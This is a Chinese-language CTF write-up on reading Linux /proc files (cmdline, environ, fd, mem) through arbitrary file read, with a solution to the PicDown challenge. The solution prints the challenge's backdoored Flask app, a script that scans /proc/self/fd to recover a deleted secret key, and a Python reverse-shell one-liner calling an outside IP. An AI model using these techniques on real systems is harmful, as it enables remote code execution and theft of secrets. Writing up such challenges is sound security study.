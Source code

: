 ## Proc 目录在 CTF 中的利用

### begin

`/proc`一般配合任意文件读取来获取服务端的信息

### /proc

Linux系统上的/proc目录是一种文件系统，即proc文件系统。与其它常见的文件系统不同的是，/proc 是一种伪文件系统（也即虚拟文件系统），存储的是当前内核运行状态的一系列特殊文件，用户可以通过这些文件查看有关系统硬件及当前正在运行进程的信息，甚至可以通过更改其中某些文件来改变内核的运行状态。

简单来讲，`/proc` 目录即保存在系统内存中的信息，大多数虚拟文件可以使用文件查看命令如cat、more或者less进行查看，有些文件信息表述的内容可以一目了然，但也有文件的信息却不怎么具有可读性。

/proc 目录中包含许多以数字命名的子目录，这些数字表示系统当前正在运行进程的进程号(PID)，里面包含对应进程相关的多个信息文件：

```bash
ls -al /proc
```

![image-20230103212610751](proc.assets/image-20230103212610751.png)

一般是这样的，里面的数字数字就是**pid**，一个进程为一个文件夹

**self**则表示当前进程

```bash
sudo ls -al /proc/1
```

![image-20230103212754935](proc.assets/image-20230103212754935.png)

只说几个重要的，更多的待挖掘

> **cmdline**
>
> 表示执行当前进程所用的命令，如：
>
> ```bash
> python3 app.py
> ```
>
> **environ**
>
> 当前进程的环境变量，一般来说可以配合**flask**来伪造**session**，但是密钥不一定都在环境变量里面
>
> **cwd**
>
> 指向当前目录，是一个文件夹，可利用其在不知道当前目录的情况下读取当前目录文件
>
> **fd**
>
> 当前进程打开的文件内容，如果打开了没关闭就会显示在这里`f.open`没有`f.close`
>
> **exe**
>
> 指向当前运行进程的命令，如`cat`命令
>
> **maps**
>
> 该进程在内存中的位置![image-20230103213704554](proc.assets/image-20230103213704554.png)
>
> **mem**
>
> 内存，利用这个可以获得所有运行中需要的数据，如**密钥**，如果**environ**看不到，可以看看这里面。但是读取的前提是需要起始和长度，所以需要配合maps，而且题目必须有读多少位的功能

## 例题

### [网鼎杯 2020 白虎组]PicDown

可以读取任意文件，但是buu环境非预期直接`/flag`就读到了，写写预期

```bash
/proc/self/cmdline
# python2 app.py
```

**app.py**

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

可以看到，是要我们访问`/no_one_know_the_manager`，然后直到密钥，就可以**rce**

而密钥就在**/tmp/secret.txt**中，但是没删除了

```
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
```

删除完并没有执行`f.close()`，可以利用**fd**的机制来读到文件

```python
import requests
import time

for i in range(1000):
   url = f"http://1cab5676-61b3-48d6-918c-655a57e5b8e8.node4.buuoj.cn:81/page?url=/proc/self/fd/{i}"
   r = requests.get(url)
   if r.text[-1:] != ">":
      print(r.text)
   time.sleep(1)
   print(i)
```

拿到密钥后反弹shell，利用python反弹

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.15.107.150",3296));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

直接bash没弹成功

然后拿到flag

还有几个题都是这个思路就不说了

### [CatCtf2022]catcat

放在比赛复现的wp里了

这题和蓝帽杯初赛的题是一样的
